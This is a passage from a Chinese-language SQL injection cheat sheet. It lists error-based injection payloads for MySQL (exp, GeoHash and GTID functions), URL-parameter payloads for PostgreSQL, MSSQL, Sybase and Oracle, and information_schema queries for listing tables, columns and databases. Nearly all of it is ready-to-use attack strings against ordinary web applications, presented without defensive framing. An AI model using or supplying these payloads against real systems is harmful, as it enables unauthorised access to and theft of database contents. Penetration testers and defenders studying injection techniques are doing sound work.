 * exp()

  > select \* from test where id=1 and exp(~(select \* from(select user())a));

4. 在MySQL5.7中多了很多能报错的函数

* ST_LatFromGeoHash()

  > select ST_LatFromGeoHash(version());

* ST_LongFromGeoHash()

  >  select ST_LongFromGeoHash(version());

* GTID_SUBSET()

  > select GTID_SUBSET(version());
  >
  > ps: 报错信息有长度限制140

* GTID_SUBTRACT()

  > select GTID_SUBTRACT(version());

* ST_PointFromGeoHash()

  >  select ST_PointFromGeoHash(version());

5. 其他数据库中也可以使用不同的方法构成报错：

```
PostgreSQL: /?param=1 and(1)=cast(version() as numeric)-- 
MSSQL: /?param=1 and(1)=convert(int,@@version)-- 
Sybase: /?param=1 and(1)=convert(int,@@version)-- 
Oracle >=9.0: /?param=1 and(1)=(select upper(XMLType(chr(60)||chr(58)||chr(58)||(select 
replace(banner,chr(32),chr(58)) from sys.v_$version where rownum=1)||chr(62))) from dual)--
```

# 通用注入语句:

- 表名

```
select group_concat(distinct table_name) from information_schema.tables where table_schema=database()
```


- 列名

```
select group_concat(distinct column_name) from information_schema.columns where table_name=[16进制|`table_name`]
```


- 数据库

```
select group_concat(schema_name) from information_schema.schemata
```

